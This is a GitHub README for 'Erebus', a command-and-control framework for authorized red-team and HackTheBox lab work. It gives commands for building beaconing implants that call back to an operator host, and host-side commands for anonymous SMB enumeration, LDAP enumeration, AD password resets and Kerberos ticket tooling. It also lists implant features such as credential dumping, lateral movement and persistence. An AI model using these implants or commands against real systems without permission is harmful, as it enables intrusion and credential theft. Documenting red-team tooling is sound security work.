

# Erebus

Lab-grade C2 for **authorized** offensive work: red team, owned labs, and HTB.

Teamserver and operator API are Go. Implants speak the same protobuf over HTTPS or DNS. **C is the engagement implant** (Windows PE and Linux). Go remains the fallback when you need the full module set.

> Authorized testing and research only. You need explicit permission (or you own the systems). See [SECURITY.md](SECURITY.md) and [LICENSE](LICENSE).

---

<table>
<tr>
<td width="33%" valign="top">

**Status**

v0.1.x · lab / research

Core loop works. Not a commercial product.

</td>
<td width="33%" valign="top">

**Prefer**

`erebus teamserver` to keep C2 up

`generate --language c` on both OS

Host `ldap` / `smb` / `ad` before an implant

</td>
<td width="33%" valign="top">

**Do not claim**

EDR-evasive by default

Full ADCS / RBCD / tickets

Enterprise support

</td>
</tr>
</table>

---

## Pieces

<table>
<tr>
<td width="50%" valign="top">

**Teamserver**

Go. gRPC on `127.0.0.1:50051` (mTLS). HTTPS and DNS listeners. SQLite at `~/.erebus/erebus.db`. High-risk `ExecuteTask` waits on the [approval gate](server/approval/).

</td>
<td width="50%" valign="top">

**Operator**

Unified CLI: `erebus`. Interactive console, REPL, and one-shot `erebus op`. Dual seats (`operator` + `approver` certs) for approve/deny.

</td>
</tr>
<tr>
<td width="50%" valign="top">

**Implant**

Beacon, HMAC-SHA256 identity, AES-256-GCM sessions. **C** (`cimplant/`) is primary. **Go** (`implant/`) is the complete module set and SOCKS fallback.

</td>
<td width="50%" valign="top">

**Host tools** (no session)

`erebus ldap` · `smb` · `ad` · `kerberos` · `mqtt` · `relay`

Same idea as a pre-implant kit. See [OPERATOR_PRE_IMPLANT.md](docs/OPERATOR_PRE_IMPLANT.md).

</td>
</tr>
</table>



Implant traffic: listener → session → next beacon. Operator tasks: gRPC → approval (if high-risk) → queue.

---

## What works

<table>
<tr>
<td width="50%" valign="top">

**C2 loop**

Register / beacon / task / result. HTTPS (silent 404 on auth fail). DNS TXT + base32 chunks. Sleep/jitter from build flags.

</td>
<td width="50%" valign="top">

**On the implant**

Shell, files (path-jailed), process, ifconfig, portscan. Go AD: LDAP enum, Kerberoast, AS-REP. WinRM PTH (Go). Cloud harvest. Windows post-ex on Go.

</td>
</tr>
<tr>
<td width="50%" valign="top">

**On the operator host**

LDAP (LDAPS first, dangling CA templates). SMB list/get. Password reset (LDAPS, then Samba SAMR). Clock skew + `with-skew`. MQTT and HTTP NTLM relay.

</td>
<td width="50%" valign="top">

**Labs exercised**

Support, Logging, Ghostlink, DanglingTree. Notes under `reports/htb-*/`. Skills: `erebus-htb`, `htb-pentest`.

</td>
</tr>
</table>

### Honest gaps

| Area | Today |
| --- | --- |
| C implant | Windows PE + Linux peer. Kerberoast/AS-REP extract and several laterals are stubs. TLS pin not finished. |
| ADCS | Enum dangling names only. Create / ESC1 / PKINIT stay Certipy (`docs/plans/SPRINT_E_ADCS.md`). |
| Tickets / RBCD / shadow | Planned Sprint B. Not shipped. |
| `erebus serve` | Starts teamserver **and** the REPL. Closing stdin **stops C2**. Use `erebus teamserver`. |
| Default HTTPS port | Fresh config listens on **443**. Lab boxes often use **8443** in `~/.erebus/server.yaml`. |
| PsExec | Stages over SMB; service create is incomplete. |
| OPSEC | No malleable profiles, no sleep mask, no multi-server. |

---

## Quick start

Needs Go 1.22+ (repo is on 1.25), `make`, and `protoc` for proto regen. C PE: mingw or `scripts/setup_c_toolchain.sh`.

```bash
make erebus
# keep C2 up (this is the lab default)
./build/erebus teamserver

# other terminal
./build/erebus certs seats
./build/erebus operator
```

```bash
make install          # ~/.local/bin/erebus
erebus                # console
erebus help
```

### Implant

```bash
# Operator (registers the PSK)
erebus op generate --os windows --language c \
  --callback https://<tun0>:8443 --out implant.exe

# Makefile (then: erebus op register-secret <id> <hex>)
make implant-c CALLBACK_URL=https://<tun0>:8443 \
  CA_CERT_PATH=$HOME/.erebus/ca-cert.pem SLEEP_MS=500 JITTER_PCT=10

make implant-c-linux CALLBACK_URL=https://<tun0>:8443 \
  CA_CERT_PATH=$HOME/.erebus/ca-cert.pem SLEEP_MS=500 JITTER_PCT=10
```

Interactive lab: low sleep is fine. Kill the implant when you leave.

### Host-side (no beacon)

```bash
erebus smb shares --host <DC> --anon
erebus ldap enum --dc <DC> --domain DOM --user u --pass-file ./p --type interesting
erebus ldap dangling --dc <DC> --domain DOM --user u --pass-file ./p
erebus ad password --dc <DC> --domain DOM --user u --pass-file ./p \
  --target t --new-pass-file ./n --yes
erebus kerberos skew --dc <DC>
erebus kerberos with-skew --dc <DC> -- certipy auth -pfx admin.pfx -dc-ip <DC>
```

Secrets with `$` go in files (`--pass-file`). Do not put them in bash double quotes.

---

## Operator surface

<table>
<tr>
<td width="50%" valign="top">

**Session**

`sessions` `use` `shell` `upload` `download` `ps` `kill` `ifconfig` `portscan` `sleep` `loot` `events` `listeners`

</td>
<td width="50%" valign="top">

**AD / lateral**

`ldap-enum` `kerberoast` `asreproast` `creds-dump` `lateral winrm\|wmi\|psexec` `smb` (implant)  
`ldap` `host-smb` `ad` `kerberos` (host)

</td>
</tr>
<tr>
<td width="50%" valign="top">

**Build / approve**

`generate` `register-secret` `pending` `approve` `deny`  
`erebus op generate` · `erebus op shell` (auto-approve with both seats)

</td>
<td width="50%" valign="top">

**High-risk**

creds dump, lateral, persist, inject, PE load, privesc — block until a **different** mTLS CN approves.

</td>
</tr>
</table>

Wire: implant `c2.proto` (HMAC + AES-GCM). Operator `api.proto` (mTLS). Config: `~/.erebus/server.yaml`.

---

## Build and test

```bash
make proto erebus          # CLI
make implant-c             # Windows C
make implant-c-linux       # Linux C
make implant implant-win   # Go
bash scripts/smoke_test.sh
go test ./server/e2e/... -v -count=1
```

---

## Docs

| | |
| --- | --- |
| HTB queue | [docs/HTB_NEXT_RUNBOOK.md](docs/HTB_NEXT_RUNBOOK.md) |
| AD cookbook | [docs/AD_ENGAGEMENT.md](docs/AD_ENGAGEMENT.md) |
| Host tools / inbound | [docs/OPERATOR_PRE_IMPLANT.md](docs/OPERATOR_PRE_IMPLANT.md) · [docs/OPERATOR_INBOUND.md](docs/OPERATOR_INBOUND.md) |
| Implant plan | [docs/IMPLANT_ROADMAP.md](docs/IMPLANT_ROADMAP.md) |
| Skills | `.grok/skills/erebus-htb` · `.claude/skills/erebus-htb` |

---

[MIT](LICENSE)
